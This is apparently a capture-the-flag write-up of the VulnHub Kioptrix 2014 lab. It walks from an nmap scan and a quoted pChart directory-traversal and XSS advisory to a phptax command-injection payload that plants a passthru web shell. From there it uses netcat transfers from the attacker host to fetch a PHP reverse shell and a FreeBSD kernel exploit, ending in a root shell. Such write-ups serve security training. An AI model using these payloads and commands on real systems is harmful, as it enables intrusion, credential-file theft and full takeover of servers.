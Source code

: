 #  Kioptrix: 2014 (#5)

https://www.vulnhub.com/entry/kioptrix-2014-5,62/

We discover to find `192.168.1.92`

```
root@kali:~# nmap -sV 192.168.1.92

Starting Nmap 7.60 ( https://nmap.org ) at 2017-09-30 15:36 BST
Nmap scan report for kioptrix2014.home (192.168.1.92)
Host is up (0.010s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
MAC Address: 00:0C:29:3C:84:62 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.18 seconds
```

We see that `http://192.168.1.92:8080` doesnt work for some reason, but `http://192.168.1.92:80` leads to a website. We check the page source to see it uses pchart php library `http://192.168.1.92/pChart2.1.3/examples/index.php`. We can check for vulnerabilities 

```
root@kali:~# searchsploit pchart
----------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                         |  Path
                                                                       | (/usr/share/exploitdb/platforms/)
----------------------------------------------------------------------- ----------------------------------
pChart 2.1.3 - Multiple Vulnerabilities                                | php/webapps/31173.txt
----------------------------------------------------------------------- ----------------------------------
root@kali:~# cat /usr/share/exploitdb/platforms/php/webapps/31173.txt
# Exploit Title: pChart 2.1.3 Directory Traversal and Reflected XSS
# Date: 2014-01-24
# Exploit Author: Balazs Makany
# Vendor Homepage: www.pchart.net
# Software Link: www.pchart.net/download
# Google Dork: intitle:"pChart 2.x - examples" intext:"2.1.3"
# Version: 2.1.3
# Tested on: N/A (Web Application. Tested on FreeBSD and Apache)
# CVE : N/A

[0] Summary:
PHP library pChart 2.1.3 (and possibly previous versions) by default
contains an examples folder, where the application is vulnerable to
Directory Traversal and Cross-Site Scripting (XSS).
It is plausible that custom built production code contains similar
problems if the usage of the library was copied from the examples.
The exploit author engaged the vendor before publicly disclosing the
vulnerability and consequently the vendor released an official fix
before the vulnerability was published.


[1] Directory Traversal:
"hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd"
The traversal is executed with the web server's privilege and leads to
sensitive file disclosure (passwd, siteconf.inc.php or similar),
access to source codes, hardcoded passwords or other high impact
consequences, depending on the web server's configuration.
This problem may exists in the production code if the example code was
copied into the production environment.

Directory Traversal remediation:
1) Update to the latest version of the software.
2) Remove public access to the examples folder where applicable.
3) Use a Web Application Firewall or similar technology to filter
malicious input attempts.


[2] Cross-Site Scripting (XSS):
"hxxp://localhost/examples/sandbox/script/session.php?<script>alert('XSS')</script>
This file uses multiple variables throughout the session, and most of
them are vulnerable to XSS attacks. Certain parameters are persistent
throughout the session and therefore persists until the user session
is active. The parameters are unfiltered.

Cross-Site Scripting remediation:
1) Update to the latest version of the software.
2) Remove public access to the examples folder where applicable.
3) Use a Web Application Firewall or similar technology to filter
malicious input attempts.


[3] Disclosure timeline:
2014 January 16 - Vulnerability confirmed, vendor contacted
2014 January 17 - Vendor replied, responsible disclosure was orchestrated
2014 January 24 - Vendor was inquired about progress, vendor replied
```

Here, we can test for directory traversal and get results from `http://192.168.1.92/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd`. We can also check the configuration files `http://192.168.1.92/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf`

```
SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser  
  
<VirtualHost *:8080>  
    DocumentRoot /usr/local/www/apache22/data2  
  
 <Directory "/usr/local/www/apache22/data2">  
  Options Indexes FollowSymLinks  
  AllowOverride All  
  Order allow,deny  
  Allow from env=Mozilla4_browser  
 </Directory>  
  
</VirtualHost>
```

## Remote Code Injection 

Here we see that it only works for user-agent Mozilla/4.0. no wonder why it didn't work earlier. We can spoof this through extensions, Mozilla's about:config or Chrome DevTools. Now we see a site that uses phptax -- another library. We can use metasploit to exploit this e.g. `msf > use exploit/multi/http/phptax_exec ` or we can use an exploit found on exploitdb https://www.exploit-db.com/exploits/25849/. 

Couldn't get the php to work, but doing it manually is just fine:

```
http://192.168.1.92:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru%28%24_GET[cmd]%29%3B%3F%3E

http://192.168.1.92:8080/phptax/data/rce.php?cmd=id (it works! we can execute any commands from here, now we just need to escalate our privleges. It may be easier to upload a php shell as shown below for convenience)

root@kali:~/test# nc -lvp 1234 < /usr/share/webshells/php/php-reverse-shell.php (remember to change the reverse-shell IP and port to the Kali Linux attacker's VM)
listening on [any] 1234 ...
(execute on browser: http://192.168.1.92:8080/phptax/data/rce.php?cmd=nc -nv 192.168.1.88 1234 > php-reverse-shell.php)
connect to [192.168.1.88] from kioptrix2014.home [192.168.1.92] 58689

root@kali:~/test# nc -lvp 1234   
(execute on browser http://192.168.1.92:8080/phptax/data/php-reverse-shell.php, some reason it took a few tries)
listening on [any] 1234 ...
connect to [192.168.1.88] from kioptrix2014.home [192.168.1.92] 53880
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
 2:33PM  up 41 mins, 0 users, load averages: 0.03, 0.05, 0.00
USER       TTY      FROM                      LOGIN@  IDLE WHAT
uid=80(www) gid=80(www) groups=80(www)
sh: can't access tty; job control turned off
```


## Privelege Escalation

The typical goto method is the find exploits of the OS, we check `uname -a` and found an exploit https://www.exploit-db.com/exploits/28718/. From here it is just the simple case of 

```
root@kali:~/test# nc -lvp 1234 < exploit.c
listening on [any] 1234 ...
(execute on browser: http://192.168.1.92:8080/phptax/data/rce.php?cmd=nc -nv 192.168.1.88 1234 > exploit.c)
connect to [192.168.1.88] from kioptrix2014.home [192.168.1.92] 45527
http://192.168.1.92:8080/phptax/data/rce.php?cmd=gcc exploit.c -o exploit
http://192.168.1.92:8080/phptax/data/rce.php?cmd=./exploit
http://192.168.1.92:8080/phptax/data/rce.php?cmd=id
uid=0(root) gid=0(wheel) groups=0(wheel) 
```

